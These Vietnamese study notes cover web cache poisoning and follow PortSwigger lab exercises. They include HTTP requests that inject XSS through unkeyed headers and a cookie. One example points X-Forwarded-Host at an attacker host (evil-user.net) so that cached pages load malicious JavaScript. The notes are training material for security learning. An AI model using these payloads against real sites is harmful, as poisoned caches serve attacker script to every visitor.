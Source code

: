 # Exploiting cache design flaws

Trong phần này, chúng ta sẽ xem xét kỹ hơn cách các lỗ hổng đầu độc bộ nhớ đệm web có thể phát sinh do các lỗi chung trong thiết kế bộ nhớ đệm. Chúng tôi cũng sẽ trình bày cách khai thác những lỗi này.

Tóm lại, các trang web dễ bị đầu độc bộ nhớ đệm web nếu chúng xử lý dữ liệu đầu vào không có khóa theo cách không an toàn và cho phép lưu trữ các phản hồi HTTP tiếp theo. Lỗ hổng này có thể được sử dụng làm phương thức phân phối cho nhiều cuộc tấn công khác nhau.

# Using web cache poisoning to deliver an XSS attack

Có lẽ lỗ hổng đầu độc bộ nhớ đệm web đơn giản nhất để khai thác là khi dữ liệu đầu vào không có khóa được phản ánh trong phản hồi có thể lưu vào bộ nhớ đệm mà không được khử trùng đúng cách.

Ví dụ, hãy xem xét yêu cầu và phản hồi sau:

```http
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: innocent-website.co.uk

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://innocent-website.co.uk/cms/social.png" />
```

Tại đây, giá trị của tiêu đề X-Forwarded-Host được sử dụng để tạo động URL hình ảnh Open Graph, sau đó được phản ánh trong phản hồi. Quan trọng đối với việc đầu độc bộ nhớ đệm web, tiêu đề X-Forwarded-Host thường không được khóa. Trong ví dụ này, bộ nhớ đệm có khả năng bị nhiễm độc bằng phản hồi chứa tải trọng XSS đơn giản:

```http
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />
```

Nếu phản hồi này được lưu trong bộ nhớ đệm, tất cả người dùng đã truy cập `/en?region=uk` sẽ được phục vụ tải trọng XSS này. Ví dụ này chỉ khiến cảnh báo xuất hiện trên trình duyệt của nạn nhân, nhưng một cuộc tấn công thực sự có khả năng đánh cắp mật khẩu và chiếm đoạt tài khoản người dùng.

# Using web cache poisoning to exploit unsafe handling of resource imports

Một số trang web sử dụng tiêu đề không có khóa để tạo URL động nhằm nhập tài nguyên, chẳng hạn như tệp JavaScript được lưu trữ bên ngoài. Trong trường hợp này, nếu kẻ tấn công thay đổi giá trị của tiêu đề thích hợp thành tên miền mà chúng kiểm soát, chúng có khả năng thao túng URL để trỏ đến tệp JavaScript độc hại của chúng.

Nếu phản hồi chứa URL độc hại này được lưu vào bộ nhớ đệm, tệp JavaScript của kẻ tấn công sẽ được nhập và thực thi trong phiên trình duyệt của bất kỳ người dùng nào có yêu cầu có khóa bộ nhớ đệm trùng khớp.

```http
GET / HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: evil-user.net
User-Agent: Mozilla/5.0 Firefox/57.0

HTTP/1.1 200 OK
<script src="https://evil-user.net/static/analytics.js"></script>
```

--- 

## Ví dụ: Web cache poisoning with an unkeyed header

https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-header

Ở trang chủ ta thấy nó có tải thêm các file js, thêm header `X-Forwarded-Host: example.com` ta thấy các file js này sẽ được tải từ trang `example.com`:

![alt text](image-3.png)

Từ đây ta lên kịch bản: Ở server exploit thêm 1 đoạn js để khai thác:

![alt text](image-4.png)

Đổi đường dẫn về trùng với path tải file js:

![alt text](image-5.png)

Bây giờ đổi header `X-Forwarded-Host: exploit-0a4d00f803e09e4c824138cd017500ed.exploit-server.net`

![alt text](image-6.png)

Ta thấy nó được lưu vào cache, nên người tiếp theo truy cập trang chủ nó cũng sẽ lấy js từ server exploit nên sẽ thực thi js ta đã tiêm.

Sau `max-age:30` thì nó mới hết cache và sửa đổi lại thành như cũ

---

# Using web cache poisoning to exploit cookie-handling vulnerabilities

Cookie thường được sử dụng để tạo nội dung động trong phản hồi. Một ví dụ phổ biến có thể là cookie chỉ ra ngôn ngữ ưa thích của người dùng, sau đó được sử dụng để tải phiên bản tương ứng của trang:

```http
GET /blog/post.php?mobile=1 HTTP/1.1
Host: innocent-website.com
User-Agent: Mozilla/5.0 Firefox/57.0
Cookie: language=pl;
Connection: close
```

Trong ví dụ này, phiên bản tiếng Ba Lan của bài đăng trên blog đang được yêu cầu. Lưu ý rằng thông tin về phiên bản ngôn ngữ nào sẽ phục vụ chỉ có trong tiêu đề `Cookie`. Giả sử khóa bộ đệm chứa dòng yêu cầu và tiêu đề `Host` nhưng không chứa tiêu đề `Cookie`. Trong trường hợp này, nếu phản hồi cho yêu cầu này được lưu vào bộ nhớ đệm, thì tất cả người dùng tiếp theo cố gắng truy cập bài đăng trên blog này cũng sẽ nhận được phiên bản tiếng Ba Lan, bất kể họ thực sự chọn ngôn ngữ nào.

Việc xử lý cookie bị lỗi này của bộ nhớ đệm cũng có thể bị khai thác bằng các kỹ thuật đầu độc bộ nhớ đệm web. Tuy nhiên, trên thực tế, vectơ này tương đối hiếm khi so sánh với đầu độc bộ nhớ đệm dựa trên tiêu đề. Khi tồn tại lỗ hổng đầu độc bộ nhớ đệm dựa trên cookie, chúng có xu hướng được xác định và giải quyết nhanh chóng vì người dùng hợp pháp đã vô tình đầu độc bộ nhớ đệm.

---

## Ví dụ: Web cache poisoning with an unkeyed cookie

https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-cookie

Để ý ta thấy cookie được đưa vào đoạn mã js, ta thử thay đổi cookie này và thấy nó được áp vào:

![alt text](image-7.png)

![alt text](image-8.png)

Với cookie `fehost=someString"-alert(1)-"someString` ta có thể thực thi `alert`:

![alt text](image-9.png)

---

# Using multiple headers to exploit web cache poisoning vulnerabilities

Một số trang web dễ bị khai thác bằng cách đầu độc bộ nhớ đệm web đơn giản, như đã trình bày ở trên. Tuy nhiên, một số khác lại yêu cầu các cuộc tấn công phức tạp hơn và chỉ trở nên dễ bị tấn công khi kẻ tấn công có thể tạo ra một yêu cầu thao túng nhiều dữ liệu đầu vào không có khóa.

Ví dụ, giả sử một trang web yêu cầu giao tiếp an toàn bằng HTTPS. Để thực thi điều này, nếu nhận được yêu cầu sử dụng giao thức khác, trang web sẽ tự động tạo chuyển hướng đến chính nó sử dụng HTTPS:

```http
GET /random HTTP/1.1
Host: innocent-site.com
X-Forwarded-Proto: http

HTTP/1.1 301 moved permanently
Location: https://innocent-site.com/random
```

Bản thân hành vi này không hẳn là dễ bị tổn thương. Tuy nhiên, bằng cách kết hợp điều này với những gì chúng ta đã tìm hiểu trước đó về lỗ hổng trong các URL được tạo động, kẻ tấn công có khả năng khai thác hành vi này để tạo ra phản hồi có thể lưu vào bộ nhớ đệm nhằm chuyển hướng người dùng đến một URL độc hại.

---

## Ví dụ: Web cache poisoning with multiple headers

https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-multiple-headers

































